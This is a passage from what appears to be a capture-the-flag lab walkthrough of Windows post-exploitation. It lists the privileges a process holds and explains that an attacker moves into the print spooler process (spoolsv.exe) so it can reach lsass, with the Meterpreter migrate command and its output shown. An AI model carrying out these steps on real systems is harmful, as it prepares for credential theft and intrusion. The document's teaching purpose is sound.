 > SeIncreaseQuotaPrivilege
> 
> SeIncreaseWorkingSetPrivilege
> 
> SeLoadDriverPrivilege
> 
> SeManageVolumePrivilege
> 
> SeProfileSingleProcessPrivilege
> 
> SeRemoteShutdownPrivilege
> 
> SeRestorePrivilege
> 
> SeSecurityPrivilege
> 
> SeShutdownPrivilege
> 
> SeSystemEnvironmentPrivilege
> 
> SeSystemProfilePrivilege
> 
> SeSystemtimePrivilege
> 
> SeTakeOwnershipPrivilege
> 
> SeTimeZonePrivilege
> SeUndockPrivilege

=> SeTakeOwnershipPrivilege

### Task 5 : Looting
  
Prior to further action, we need to move to a process that actually has the permissions that we need to interact with the lsass service, the service responsible for authentication within Windows. First, let's list the processes using the command `ps`. Note, we can see processes being run by NT AUTHORITY\SYSTEM as we have escalated permissions (even though our process doesn't). 
  
In order to interact with lsass we need to be 'living in' a process that is the same architecture as the lsass service (x64 in the case of this machine) and a process that has the same permissions as lsass. The printer spool service happens to meet our needs perfectly for this and it'll restart if we crash it!
  
#### 1) What's the name of the printer service ?
  
  spoolsv.exe 
 
  #### 2) Migrate to this process now with the command `migrate -N PROCESS_NAME`.
  
`meterpreter > migrate -N spoolsv.exe`
  
> [*] Migrating from 1964 to 1376...
> 
> [*] Migration completed successfully.
  